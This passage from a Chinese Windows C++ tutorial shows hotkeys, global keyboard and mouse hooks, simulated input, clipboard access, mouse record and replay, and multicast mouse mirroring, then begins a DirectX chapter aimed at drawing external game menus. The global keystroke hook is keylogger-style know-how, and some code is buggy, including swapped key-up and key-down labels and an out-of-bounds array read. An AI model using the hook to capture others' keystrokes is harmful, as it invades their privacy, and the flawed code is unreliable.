  LPMSG lpMsg,
  HWND hWnd,
  UINT wMsgFilterMin,
  UINT wMsgFilterMax
);
```

其中，参数的含义如下：

- lpMsg：指向MSG结构体的指针，用于存储获取到的消息
- hWnd：消息接收者的窗口句柄，通常设置为NULL，表示接收所有窗口的消息
- wMsgFilterMin：指定获取消息的最小消息值，通常设置为0
- wMsgFilterMax：指定获取消息的最大消息值，通常设置为0

GetMessage函数需要传入一个指向`MSG`结构体的指针，该结构体包含了消息的各种信息，例如消息的类型、发送者、接收者、时间戳等等。读者只需要通过判断函数内的`WM_HOTKEY`消息，并监控是否为我们所需要的即可，如下代码是一段注册热键的实现，分别注册了`Ctrl+F1`，` Ctrl+F2`，` Ctrl+F3`三个热键组；

```c
#include <windows.h>
#include <iostream>

using namespace std;

int main(int argc, char* argv[])
{
  // 分别注册三个热键 Ctrl+F1 , Ctrl+F2 , Ctrl+F3
  if (0 == RegisterHotKey(NULL, 1, MOD_CONTROL, VK_F1))
  {
    cout << GetLastError() << endl;
  }
  if (0 == RegisterHotKey(NULL, 2, MOD_CONTROL, VK_F2))
  {
    cout << GetLastError() << endl;
  }
  if (0 == RegisterHotKey(NULL, 3, MOD_CONTROL, VK_F3))
  {
    cout << GetLastError() << endl;
  }

  // 消息循环
  MSG msg = { 0 };

  // 从消息循环内读出按键码
  while (GetMessage(&msg, NULL, 0, 0))
  {
    switch (msg.message)
    {
    case WM_HOTKEY:
    {
      if (1 == msg.wParam)
      {
        std::cout << "CTRL + F1" << std::endl;
      }

      else if (2 == msg.wParam)
      {
        std::cout << "CTRL + F2" << std::endl;
      }

      else if (3 == msg.wParam)
      {
        std::cout << "CTRL + F3" << std::endl;
      }
      break;
    }
    default:
      break;
    }
  }
  return 0;
}
```

读者可自行编译上述代码片段，并运行，分别按下`Ctrl+F1`，` Ctrl+F2`，` Ctrl+F3`即可看到输出效果图；



当然上述方法是局部的，读者只能在当前进程内使用，如果离开了进程窗体则这类热键将会失效，此时我们就需要使用`SetWindowsHookEx`函数注册全局钩子，该函数可以在系统中安装钩子，以便监视或拦截特定的事件或消息。

以下是SetWindowsHookEx的函数原型：

```c
HHOOK SetWindowsHookEx(
  int       idHook,
  HOOKPROC  lpfn,
  HINSTANCE hMod,
  DWORD     dwThreadId
);
```

参数说明：

- idHook：钩子类型，可以是WH_KEYBOARD（键盘钩子）或WH_MOUSE（鼠标钩子）等
- lpfn：回调函数，当特定事件或消息发生时，操作系统会调用此函数。该函数的返回值由钩子类型和参数决定
- hMod：包含`lpfn`的`DLL`句柄。如果`lpfn`参数在当前进程内，则该参数可以为NULL
- dwThreadId：线程标识符，指定与钩子相关联的线程。如果`dwThreadId`参数为0，则钩子将应用于所有线程

函数会返回一个类型为`HHOOK`的句柄，该句柄可以在卸载钩子时使用，读者需要注意由于全局钩子会影响系统性能，因此在使用`SetWindowsHookEx`函数时应谨慎，并在使用结束后及时的通过`UnhookWindowsHookEx`释放钩子句柄。

如下所示代码则是一个键盘钩子监控案例，在该案例中我们通过`SetWindowsHookEx`注册一个全局钩子，并设置回调函数`LowLevelKeyboardProc`通过使用`PeekMessageA`监控键盘事件，当有键盘事件产生时则自动路由到`LowLevelKeyboardProc`函数内，此时即可得到按键的类型以及按下键位，如下所示；

```c
#include <windows.h>
#include <iostream>
#include <conio.h>

using namespace std;

// 钩子句柄
HHOOK keyboardHook = 0;

// 键盘钩子
LRESULT CALLBACK LowLevelKeyboardProc(_In_ int nCode, _In_ WPARAM wParam, _In_ LPARAM lParam)
{
    KBDLLHOOKSTRUCT* ks = (KBDLLHOOKSTRUCT*)lParam;
    if (ks->flags == 128 || ks->flags == 129)
    {
        // 监控按键状态
        if (nCode >= 0)
        {
            switch (wParam)
            {
            case WM_KEYDOWN:
                cout << "普通按键抬起" << endl;
                break;
            case WM_KEYUP:
                cout << "普通按鍵按下" << endl;
                break;

            case WM_SYSKEYDOWN:
                cout << "系统按键抬起" << endl;
                break;
            case WM_SYSKEYUP:
                cout << "系统按键按下" << endl;
                break;
            }
        }

        // 监控键盘,并判断键
        switch (ks->vkCode)
        {
        case 0x41:
            cout << "检测到按键：" << "A" << endl;
            break;
        case 0x0D:
            cout << "检测到按键：" << "Enter" << endl;
            break;
        case 0xA0: case 0xA1:
            cout << "检测到按键：" << "Shift" << endl;
            break;
        case 0x08:
            cout << "检测到按键：" << "Backspace" << endl;
            break;
        case 0x20:
            cout << "检测到按键：" << "Space" << endl;
            break;
        }

        // 直接返回1可以使按键失效
        //return 1;
    }
    return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int main(int argc, char* argv[])
{
    // 安装钩子WH_KEYBOARD_LL为键盘钩子
    keyboardHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, GetModuleHandleA(NULL), NULL);
    if (keyboardHook == 0)
    {
        cout << "挂钩键盘失败" << endl; return -1;
    }

    MSG msg;
    while (1)
    {
        if (PeekMessageA(&msg, NULL, NULL, NULL, PM_REMOVE))
        {
            TranslateMessage(&msg);
            DispatchMessageW(&msg);
        }
        else
            Sleep(0);
    }
    UnhookWindowsHookEx(keyboardHook);
    return 0;
}
```

编译并运行上述代码，读者可自行按下键盘键位，则可看到如下图所示的输出；



鼠标钩子的挂钩与键盘基本一致，只是在调用`SetWindowsHookEx`传递参数时设置了`WH_MOUSE_LL`鼠标事件，当有鼠标消息时则通过`MouseProc`鼠标回调函数执行，

```c
#include <windows.h>
#include <iostream>
#include <conio.h>

using namespace std;

// 钩子句柄
HHOOK keyboardHook = 0;

// 鼠标钩子
LRESULT CALLBACK MouseProc(int nCode, WPARAM wParam, LPARAM lParam)
{
  LPMSLLHOOKSTRUCT p = (LPMSLLHOOKSTRUCT)lParam;
  POINT   pt = p->pt;
  DWORD   mouseData = p->time;

  const char* info = NULL;
  char text[60], pData[50], mData[50];

  PAINTSTRUCT ps;
  HDC hdc;

  if (nCode >= 0)
  {
    if (wParam == WM_MOUSEMOVE)
    {
      info = "鼠标 [移动]";
    }
    else if (wParam == WM_LBUTTONDOWN)
    {
      info = "鼠标 [左键] 按下";
    }
    else if (wParam == WM_LBUTTONUP)
    {
      info = "鼠标 [左键] 抬起";
    }
    else if (wParam == WM_LBUTTONDBLCLK)
    {
      info = "鼠标 [左键] 双击";
    }
    else if (wParam == WM_RBUTTONDOWN)
    {
      info = "鼠标 [右键] 按下";
    }
    else if (wParam == WM_RBUTTONUP)
    {
      info = "鼠标 [右键] 抬起";
    }
    else if (wParam == WM_RBUTTONDBLCLK)
    {
      info = "鼠标 [右键] 双击";
    }
    else if (wParam == WM_MBUTTONDOWN)
    {
      info = "鼠标 [滚轮] 按下";
    }
    else if (wParam == WM_MBUTTONUP)
    {
      info = "鼠标 [滚轮] 抬起";
    }
    else if (wParam == WM_MBUTTONDBLCLK)
    {
      info = "鼠标 [滚轮] 双击";
    }
    else if (wParam == WM_MOUSEWHEEL)
    {
      info = "鼠标 [滚轮] 滚动";
    }

    ZeroMemory(text, sizeof(text));
    ZeroMemory(pData, sizeof(pData));
    ZeroMemory(mData, sizeof(mData));

    std::cout << "鼠标状态: " << info << std::endl;
    std::cout << "X: " << pt.x << " Y: " << pt.y << std::endl;
    std::cout << "附加数据: " << mouseData << std::endl;
  }

  return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int main(int argc, char* argv[])
{
  // 安装钩子
  keyboardHook = SetWindowsHookEx(WH_MOUSE_LL,MouseProc,GetModuleHandleA(NULL),NULL);
  if (keyboardHook == 0)
  {
    cout << "挂钩鼠标失败" << endl; return -1;
  }

  MSG msg;
  while (1)
  {
    // 如果消息队列中有消息
    if (PeekMessageA(&msg,NULL,NULL,NULL,PM_REMOVE))
    {
      // 把按键消息传递给字符消息
      TranslateMessage(&msg);

      // 将消息分派给窗口程序
      DispatchMessageW(&msg);
    }
    else
      Sleep(0);
  }
  UnhookWindowsHookEx(keyboardHook);

  return 0;
}
```

读者可自行编译并运行上述代码片段，当挂钩后我们就可以看到鼠标的移动位置以及鼠标击键情况，如下图所示；



### 12.2 实现键盘鼠标模拟

键盘鼠标的模拟是实现自动化的必备流程，通常我们可以使用`keybd_event()`实现对键盘的击键模拟，使用`SetCursorPos()`实现对鼠标的模拟，使用两者的配合读者可以很容易的实现对键盘鼠标的控制，本节将依次封装实现，模拟键盘鼠标控制功能，读者可根据自己的实际需求选用不同的函数片段。

**MyAnalogKey 模拟键盘按键**

模拟按键的核心功能是通过调用`keybd_event()`函数实现的，如下是这段代码的完整实现，首先`MySetKeyBig()`函数该函数用于设置键盘状态是否为大小写，用户可以传入一个状态值来设置当前输入法大小写模式，`MyAnalogKey()`函数用于实现模拟键盘按键，该函数接收一个英文字符串，并自动实现击键操作，代码实现并不复杂，读者可自行测试功能。

```C
#include <windows.h>
#include <iostream>

using namespace std;

// 设置键盘大小写状态 为TRUE则切换大写状态,否则切换小写状态
VOID MySetKeyBig(BOOL big = FALSE)
{
  // 判断键盘CapsLock键是否开启状态,开启状态则为大写,否则为小写
  if (GetKeyState(VK_CAPITAL))
  {
    // 如果当前键盘状态为大写,要求改小写,则模拟按键CapsLock切换状态
    if (!big)
    {
      keybd_event(VK_CAPITAL, NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event(VK_CAPITAL, NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }

    std::cout << "[键盘状态] " << "切换大写" << std::endl;
  }
  else
  {
    // 如果当前键盘状态为小写,要求改大写,则模拟按键CapsLock切换状态
    if (big)
    {
      keybd_event(VK_CAPITAL, NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event(VK_CAPITAL, NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }

    std::cout << "[键盘状态] " << "切换小写" << std::endl;
  }
}

// 模拟键盘按键
VOID MyAnalogKey(char* str)
{
  int iLen = 0;
  char* tmp = NULL;
  INPUT* keys = NULL;
  BOOL bOldState = FALSE;

  // 保存此操作前的键盘状态
  bOldState = (BOOL)GetKeyState(VK_CAPITAL);
  iLen = lstrlen(str);
  tmp = (char*)malloc(iLen);
  memmove(tmp, str, iLen);
  for (int i = 0; i < iLen; i++)
  {
    // 某些符号非直属键盘按键,这里只过滤转换两个,以后用到其它字符自行添加过滤
    if (tmp[i] == ' ')
    {
      // 产生一个击键消息步骤:按下->抬起
      keybd_event(VK_SPACE, NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event(VK_SPACE, NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }
    else if (tmp[i] == ',')
    {
      keybd_event(VK_OEM_COMMA, NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event(VK_OEM_COMMA, NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }
    else if (tmp[i] >= 'a' && tmp[i] <= 'z')
    {
      // 根据字符大小写切换键盘大小写状态
      MySetKeyBig(0);
      // keybd_event只识别大写
      keybd_event((BYTE)tmp[i] - 32, NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event((BYTE)tmp[i] - 32, NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }
    else if ((tmp[i] >= 'A' && tmp[i] <= 'Z') || (tmp[i] >= '0' && tmp[i] <= '9'))
    {
      MySetKeyBig(1);
      keybd_event((BYTE)tmp[i], NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event((BYTE)tmp[i], NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }
    else
    {
      keybd_event((BYTE)tmp[i] + 64, NULL, KEYEVENTF_EXTENDEDKEY | 0, NULL);
      keybd_event((BYTE)tmp[i] + 64, NULL, KEYEVENTF_EXTENDEDKEY | KEYEVENTF_KEYUP, NULL);
    }
    Sleep(50);
  }
  // 恢复此操作之前的键盘状态
  MySetKeyBig(bOldState);
  free(tmp);
}

int main(int argc, char *argv[])
{
  Sleep(5000);
  MyAnalogKey((char*)"Love life , Love LyShark WelCome LyShark Cpp Home ...");

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码片段，将光标移动到记事本中，等待五秒钟，则会依次敲击如下所示的键盘按键；



**设置GoogleChrome窗体最大化**

如下代码实现了设置一个窗体置顶并将该窗体最大化显示的效果，该代码实现原理是通过使用`EnumWindows`函数传递一个回调函数，实现对特定窗体的枚举，当找到对应窗体句柄后则将该窗体句柄传递给`global_hwnd`全局句柄中，当获取到`Google`浏览器句柄之后则通过`GetSystemMetrics`函数得到当前全屏窗体的像素比，通过调用`SetWindowPos`可将一个窗体设置为置顶显示，最后可调用`SendMessage`函数向特定窗体句柄发送最大化消息，使其填充满整个屏幕，代码如下所示；

```c
#include <iostream>
#include <windows.h>

using namespace std;

HWND global_hwnd = 0;

// 将字符串逆序
char * Reverse(char str[])
{
  int n = strlen(str);
  int i;
  char temp;
  for (i = 0; i < (n / 2); i++)
  {
    temp = str[i];
    str[i] = str[n - i - 1];
    str[n - i - 1] = temp;
  }
  return str;
}

// 窗体枚举回调函数
BOOL CALLBACK lpEnumFunc(HWND hwnd, LPARAM lParam)
{
  char WindowName[MAXBYTE] = { 0 };
  DWORD ThreadId, ProcessId = 0;

  GetWindowText(hwnd, WindowName, sizeof(WindowName));
  ThreadId = GetWindowThreadProcessId(hwnd, &ProcessId);
  printf("句柄: %-9d --> 线程ID: %-6d --> 进程ID: %-6d --> 名称: %s \n", hwnd, ThreadId, ProcessId, WindowName);

  // 首先逆序输出字符串,然后比较前13个字符
  if (strncmp(Reverse(WindowName), "emorhC elgooG", 13) == 0)
  {
    global_hwnd = hwnd;
  }
  return TRUE;
}

int main(int argc, char* argv[])
{
  // 枚举Google浏览器句柄
  EnumWindows(lpEnumFunc, 0);
  std::cout << "浏览器句柄: " << global_hwnd << std::endl;

  if (global_hwnd != 0)
  {
    // 获取系统屏幕宽度与高度 (像素)
    int cx = GetSystemMetrics(SM_CXSCREEN);
    int cy = GetSystemMetrics(SM_CYSCREEN);
    std::cout << "屏幕X: " << cx << " 屏幕Y: " << cy << std::endl;

    // 传入指定的HWND句柄
    HWND hForeWnd = GetForegroundWindow();
    DWORD dwCurID = GetCurrentThreadId();
    DWORD dwForeID = GetWindowThreadProcessId(hForeWnd, NULL);
    AttachThreadInput(dwCurID, dwForeID, TRUE);

    // 将该窗体呼出到顶层
    ShowWindow(global_hwnd, SW_SHOWNORMAL);
    SetWindowPos(global_hwnd, HWND_TOPMOST, 0, 0, 0, 0, SWP_NOSIZE | SWP_NOMOVE);
    SetWindowPos(global_hwnd, HWND_NOTOPMOST, 0, 0, 0, 0, SWP_NOSIZE | SWP_NOMOVE);
    SetForegroundWindow(global_hwnd);
    AttachThreadInput(dwCurID, dwForeID, FALSE);

    // 发送最大化消息
    SendMessage(global_hwnd, WM_SYSCOMMAND, SC_MAXIMIZE, 0);    // 最大化
    // SendMessage(global_hwnd, WM_SYSCOMMAND, SC_MINIMIZE, 0); // 最小化
    // SendMessage(global_hwnd, WM_SYSCOMMAND, SC_CLOSE, 0);    // 关闭
  }

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述程序，此时会将谷歌浏览器全屏并置顶显示，输出信息如下图所示；



**读取与设置剪辑板**

读取与设置剪辑版可用于对数据的拷贝与设置，调用`setClipbar`函数并传入一段字符串可实现将传入字符串拷贝到剪辑版的功能，使用`getClipBoardValue`则可实现读取剪辑版中的内容到程序内。

```c
#include <iostream>
#include <windows.h>
#include <time.h>

// 将字符串写入到剪切板
BOOL setClipbar(const char* data)
{
  int contentSize = strlen(data) + 1;
  HGLOBAL hMemory; LPTSTR lpMemory;

  // 打开剪切板
  if (!OpenClipboard(NULL))
  {
    return FALSE;
  }
  // 清空剪切板
  if (!EmptyClipboard())
  {
    return FALSE;
  }
  // 对剪切板分配内存
  if (!(hMemory = GlobalAlloc(GMEM_MOVEABLE, contentSize)))
  {
    return FALSE;
  }
  // 锁定内存区域
  if (!(lpMemory = (LPTSTR)GlobalLock(hMemory)))
  {
    return FALSE;
  }

  // 复制数据到内存区域,解除内存锁定
  memcpy_s(lpMemory, contentSize, data, contentSize);
  GlobalUnlock(hMemory);

  // 设置剪切板数据
  if (!SetClipboardData(CF_TEXT, hMemory))
  {
    return FALSE;
  }
  
  // std::cout << "已复制: " << data << " 长度: " << contentSize << std::endl;
  return CloseClipboard();
}

// 获取剪切板内容
char* getClipBoardValue()
{
  // 初始化
  char* url, *pData;
  size_t length;

  // 打开剪切板
  if (!OpenClipboard(NULL))
  {
    return FALSE;
  }

  // 获取剪切板内的数据
  HANDLE hData = GetClipboardData(CF_TEXT);
  if (hData == NULL)
  {
    return FALSE;
  }

  // 获取数据长度
  length = GlobalSize(hData);
  url = (char*)malloc(length + 1);

  // 将数据转换为字符
  pData = (char*)GlobalLock(hData);
  strcpy_s(url, length, pData);

  // 清理工作
  url[length] = 0;
  GlobalUnlock(hData);
  CloseClipboard();

  // 返回结果并释放内存
  char* result = _strdup(url);
  free(url);
  return result;
}

int main(int argc, char *argv[])
{
  Sleep(5000);

  for (size_t i = 0; i < 10; i++)
  {
    // 填充字符串
    char MyData[256] = { 0 };
    sprintf(MyData, "hello lyshark --> %d", i);

    // 设置到剪辑版
    BOOL set_flag = setClipbar(MyData);
    if (set_flag == TRUE)
    {
      // std::cout << "[*] 已设置" << std::endl;

      // 获取剪辑版
      char *data = getClipBoardValue();
      std::cout << "[剪辑版数据] = " << data << std::endl;
    }
  }

  system("pause");
  return 0;
}
```

运行上述程序，依次实现填充字符串并设置到剪辑版，最后再通过`getClipBoardValue`函数从剪辑版内读出数据，如下图所示；



**模拟鼠标录制回放** 

实现一个简单的鼠标脚本录制回放工具，当用于按下F1快捷键是自动录制鼠标动作，按下F2则播放提前录制好的鼠标动作，读者可自行运行这段程序，录制成功的脚本则自动存储到`d://script.txt`目录下。

```C
#include <windows.h>
#include <iostream>

using namespace std;

// 切割字符串
int split(char dst[][32], char* str, const char* spl)
{
    int n = 0;
    char* result = NULL;
    result = strtok(str, spl);
    while (result != NULL)
    {
        strcpy(dst[n++], result);
        result = strtok(NULL, spl);
    }
    return n;
}

// 每次写入一行
int Write_File(char* path, char* msg)
{
    FILE* fp = fopen(path, "a+");
    if (fp == NULL) return -1;

    char ch, buffer[1024];

    int index = 0;
    while (msg[index] != '\0')
    {
        fputc(msg[index], fp);
        index++;
    }
    fclose(fp);
    return 1;
}

// 回放脚本
void Play(char *script)
{
    FILE* fp = fopen(script, "r");
    char buf[1024];

    while (feof(fp) == 0)
    {
        // 每次读入一行
        memset(buf, 0, 1024);
        fgets(buf, 1024, fp);

        // 以逗号切割
        char split_comma[4][32] = { 0 };
        int comma_count = split(split_comma, buf, ",");

        int key_item[4] = { 0 };

        // std::cout << "长度: " << comma_count << std::endl;
        for (int x = 0; x < comma_count; x++)
        {
            // 继续切割冒号
            char split_colon[2][32] = { 0 };
            split(split_colon, split_comma[x], ":");

            // std::cout << "字典键 = " << split_colon[0] << " 字典值 = " << split_colon[1] << std::endl;
            key_item[x] = atoi(split_colon[1]);
        }

        if (key_item[3] != 0)
        {
            mouse_event(MOUSEEVENTF_LEFTUP | MOUSEEVENTF_LEFTDOWN, 0, 0, 0, 0);
        }
        if (key_item[4] != 0)
        {
            mouse_event(MOUSEEVENTF_RIGHTUP | MOUSEEVENTF_RIGHTDOWN, 0, 0, 0, 0);
        }

        // 得到数据后开始回放
        SetCursorPos(key_item[0], key_item[1]);
        Sleep(70);
    }
}

// 录制脚本
void Recording(char *script)
{
    int static_x = 0, static_y = 0;
    bool static_lbutton = 0, static_rbutton = 0;

    while (1)
    {
        POINT Position;
        GetCursorPos(&Position);

        int x = Position.x;
        int y = Position.y;
        bool lbutton = GetAsyncKeyState(VK_LBUTTON);
        bool rbutton = GetAsyncKeyState(VK_RBUTTON);

        if (x != static_x || y != static_y || lbutton != static_lbutton || rbutton != static_rbutton)
        {
            char szBuf[1024] = { 0 };
            std::cout << "X轴 = " << x << " Y轴 = " << y << " 鼠标左键 = " << lbutton << " 鼠标右键 = " << rbutton << std::endl;

            sprintf(szBuf, "X:%d,Y:%d,L:%d,R:%d\n", x, y, lbutton, rbutton);
            Write_File((char*)script, szBuf);

            static_x = x;
            static_y = y;
            static_lbutton = lbutton;
            static_rbutton = rbutton;
        }
    }
}

int main(int argc, char* argv[])
{
    // 注册热键 F1 , F2
    if (0 == RegisterHotKey(NULL, 1,0, VK_F1))
    {
        cout << GetLastError() << endl;
    }
    if (0 == RegisterHotKey(NULL, 2,0, VK_F2))
    {
        cout << GetLastError() << endl;
    }
    if (0 == RegisterHotKey(NULL, 3, 0, VK_F3))
    {
        cout << GetLastError() << endl;
    }

    // 消息循环
    MSG msg = { 0 };

    while (GetMessage(&msg, NULL, 0, 0))
    {
        switch (msg.message)
        {
        case WM_HOTKEY:
        {
            if (1 == msg.wParam)
            {
                std::cout << "录制脚本" << std::endl;
                Recording((char *)"d://script.txt");
            }

            else if (2 == msg.wParam)
            {
                std::cout << "回放脚本" << std::endl;
                Play((char *)"d://script.txt");
            }

            else if (3 == msg.wParam)
            {
                exit(0);
                return 0;
            }

            break;
        }
        default:
            break;
        }
    }
    return 0;
}
```

读者可自行编译并运行这段代码，输出效果图如下所示；



**组播实现鼠标批量执行**

组播模式相比单播模式可以提高网络的效率和带宽利用率，因为组播数据包只需要发送一次，就可以被多个接收者接收，而不需要每个接收者都单独发送一份数据包。这在需要同时向多个接收者发送相同数据的场景下特别有用，如视频会议、在线教育、流媒体等。组播模式可以减少网络拥塞，降低网络延迟，并且可以减少网络中的冗余数据。

通过构建组播服务器端与客户端，并配合键盘鼠标控制接口，当服务器端执行一个操作时客户端同步执行，通过此方法读者可轻易的实现一个简单的镜像服务器，当服务器规模庞大而主机系统版本相同时，该功能可实现服务器端执行一次客户端即可实现批量部署的效果。

先来看服务端是如何实现的功能，首先服务端定义`umsg`结构体，该结构用于存储鼠标坐标值以及鼠标按键状态，当服务器运行后开启组播模式等待客户端上线，当客户端上线则我们通过动态获取本机鼠标位置并封装成结构体传输给上线的客户端，以此来实现镜像功能。

```c
#include <winsock.h>
#include <iostream>

#pragma comment(lib, "WSOCK32.lib")

using namespace std;

// 鼠标状态结构体
typedef struct umsg
{
  int cursor_pos_x;           // 鼠标X坐标
  int cursor_pos_y;           // 鼠标Y坐标
  int cursor_key_state;       // 鼠标按键状态

  umsg() :cursor_pos_x(), cursor_pos_y(), cursor_key_state()
  {
    cursor_pos_x = 0;
    cursor_pos_y = 0;
    cursor_key_state = 0;
  }
}umsg;

// 获取鼠标按键
int GetKeyState()
{
  if (GetAsyncKeyState(VK_LBUTTON) & 0x8000)
  {
    Sleep(15);
    return 1;
  }
  if (GetAsyncKeyState(VK_RBUTTON) & 0x8000)
  {
    Sleep(15);
    return 2;
  }
  return 0;
}

int main(int argc, char *argv[])
{
  WSADATA wsaData;
  struct sockaddr_in addr;
  int fd;
  struct ip_mreq mreq;

  // 初始化套接字
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    std::cout << "初始化失败" << std::endl;
    return 0;
  }

  // 创建套接字 SOCK_DGRAM 采用UDP
  if ((fd = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
  {
    std::cout << "套接字创建失败" << std::endl;
    return 0;
  }

  // 设置套接字为组播模式
  u_int yes = 1;
  if (setsockopt(fd, SOL_SOCKET, SO_REUSEADDR, (char *)&yes, sizeof(yes)) < 0)
  {
    std::cout << "设置组播模式失败" << std::endl;
    return 0;
  }

  // 0-同一台主机，1-跨主机
  UCHAR uLoop = 1;

  setsockopt(fd, IPPROTO_IP, IP_MULTICAST_LOOP, (char*)&uLoop, sizeof(uLoop));

  memset(&addr, 0, sizeof(addr));
  addr.sin_family = AF_INET;
  addr.sin_addr.s_addr = htonl(INADDR_ANY);
  addr.sin_port = htons(9999);

  // 绑定套接字
  if (bind(fd, (struct sockaddr *) &addr, sizeof(addr)) < 0)
  {
    std::cout << "绑定失败" << std::endl;
    return 0;
  }

  // 设置组播模式中的组信息
  mreq.imr_multiaddr.s_addr = inet_addr("228.2.3.1");
  mreq.imr_interface.s_addr = htonl(INADDR_ANY);
  if (setsockopt(fd, IPPROTO_IP, IP_ADD_MEMBERSHIP, (char *)&mreq, sizeof(mreq)) < 0)
  {
    int err = GetLastError();
    std::cout << "设置组失败: " << err << std::endl;
    return 0;
  }

  // 循环
  while (1)
  {
    char recv_buffer[4096] = { 0 };
    char send_buffer[4096] = { 0 };
    int addrlen = sizeof(addr);
    int nbytes;

    // 接收组播数据
    if ((nbytes = recvfrom(fd, recv_buffer, 4096, 0, (struct sockaddr *) &addr, (int *)&addrlen)) < 0)
    {
      std::cout << "接收数据包失败" << std::endl;
      return 0;
    }
    recv_buffer[nbytes] = '\0';
    std::cout << "接收组播数据包: " << recv_buffer << std::endl;

    umsg msg;

    // 获取鼠标状态
    POINT pt;
    BOOL ref = GetCursorPos(&pt);

    // 设置鼠标坐标
    msg.cursor_pos_x = pt.x;
    msg.cursor_pos_y = pt.y;

    // 获取鼠标状态值
    int key_flag = GetKeyState();
    if (key_flag == 0)
    {
      msg.cursor_key_state = 0;
    }
    else if (key_flag == 1)
    {
      msg.cursor_key_state = 1;
    }
    else if (key_flag == 2)
    {
      msg.cursor_key_state = 2;
    }

    std::cout << "鼠标X = " << msg.cursor_pos_x << " 鼠标Y = " << msg.cursor_pos_y << std::endl;
    std::cout << "鼠标键位 = " << msg.cursor_key_state << std::endl;

    // 发送组播数据包
    sendto(fd, (char *)&msg, 4096, 0, (struct sockaddr *) &addr, sizeof(addr));
  }
  return 0;
}
```

与服务端功能类似，对于`客户端`来说，收到数据包以后，将其转换为`umsg`格式结构体，读取其中坐标信息，并执行指定函数对鼠标的状态进行设置，实现鼠标的同步执行。

```c
#include <winsock.h>
#include <iostream>

#pragma comment(lib, "WSOCK32.lib")

using namespace std;

// 鼠标状态结构体
typedef struct umsg
{
  int cursor_pos_x;           // 鼠标X坐标
  int cursor_pos_y;           // 鼠标Y坐标
  int cursor_key_state;       // 鼠标按键状态

  umsg() :cursor_pos_x(), cursor_pos_y(), cursor_key_state()
  {
    cursor_pos_x = 0;
    cursor_pos_y = 0;
    cursor_key_state = 0;
  }
}umsg;

int main(int argc, char *argv[])
{
  WSADATA wsaData;
  struct sockaddr_in addr;
  int fd;

  // 初始化套接字
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    std::cout << "初始化失败" << std::endl;
    return 0;
  }

  // 创建套接字 SOCK_DGRAM 采用UDP
  if ((fd = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
  {
    std::cout << "套接字创建失败" << std::endl;
    return 0;
  }

  UCHAR uLoop = 1; // 0-同一台主机，1-跨主机

  setsockopt(fd, IPPROTO_IP, IP_MULTICAST_LOOP, (char*)&uLoop, sizeof(uLoop));

  // 设置组播模式组信息
  memset(&addr, 0, sizeof(addr));
  addr.sin_family = AF_INET;
  addr.sin_addr.s_addr = inet_addr("228.2.3.1");
  addr.sin_port = htons(9999);

  // 循环
  while (1)
  {
    // 发送组播数据包
    char send_buffer[4096] = "Hello, World!";
    if (sendto(fd, send_buffer, strlen(send_buffer), 0, (struct sockaddr *) &addr, sizeof(addr)) < 0)
    {
      std::cout << "发送失败" << std::endl;
      return 0;
    }

    // 接收组播数据
    int addrlen = sizeof(addr);
    char recv_buffer[4096] = { 0 };
    recvfrom(fd, recv_buffer, 4096, 0, (struct sockaddr *) &addr, (int *)&addrlen);
    std::cout << "接收组播数据包: " << recv_buffer << std::endl;

    // 格式化数据包为umsg格式
    umsg* recv_message = (umsg*)recv_buffer;
    int pos_x = recv_message->cursor_pos_x;
    int pos_y = recv_message->cursor_pos_y;
    int key_stat = recv_message->cursor_key_state;

    // 判断键位并设置
    if (key_stat == 0)
    {
      std::cout << "鼠标X: " << pos_x << " 鼠标Y: " << pos_y << endl;
      SetCursorPos(pos_x, pos_y);
    }
    else if (key_stat == 1)
    {
      std::cout << "左键按下" << std::endl;
      mouse_event(MOUSEEVENTF_LEFTUP | MOUSEEVENTF_LEFTDOWN, 0, 0, 0, 0);
      key_stat = 0;
    }
    else if (key_stat == 2)
    {
      std::cout << "右键按下" << std::endl;
      mouse_event(MOUSEEVENTF_RIGHTUP | MOUSEEVENTF_RIGHTDOWN, 0, 0, 0, 0);
      key_stat = 0;
    }
  }
  return 0;
}
```

读者可以编译上方两段代码，并首先在物理机内启动服务端，在虚拟机内启动客户端，此时当服务端鼠标发生移动时客户端也会跟随移动，服务端执行的操作客户端也会被执行，如下图所示；



## 第十三篇：应用DirectX窗体绘制技术

DirectX 9 是由微软开发的一组多媒体应用程序接口API，用于创建和运行基于Windows平台的多媒体应用程序，尤其是游戏。它是DirectX系列中的一个版本，于2002年发布，是DirectX系列中的一个重要版本，DirectX 9在其发布时引入了许多新的功能和性能优化，成为当时PC游戏开发的主要标准，许多经典的PC游戏使用了DX9作为其图形和音频渲染引擎。虽然后续出现了更多强大的引擎，但本质上都是可以兼容Dx9的，本章将带领读者封装并实现自己的D3D绘图库，并以此实现外部游戏菜单的绘制工作。

### 13.1 引用DirectX9引擎

在使用Dx9引擎之前读者需要自行下载该绘制库，当然在课件中笔者已经为大家准备了绿色版，读者可自行解压到指定目录下，在目录下有一个`Developer Runtime`其内部是引擎运行时所需要的运行环境，读者可根据不同的需求安装对应位数的运行库，安装成功后则可配置开发目录，一般而言我们只需要关注`Include`引入目录，以及`Lib`库目录即可，读者可自行打开属性页面，并选中VC++目录自行配置，如下图所示；



#### 13.1.1 初始化变量

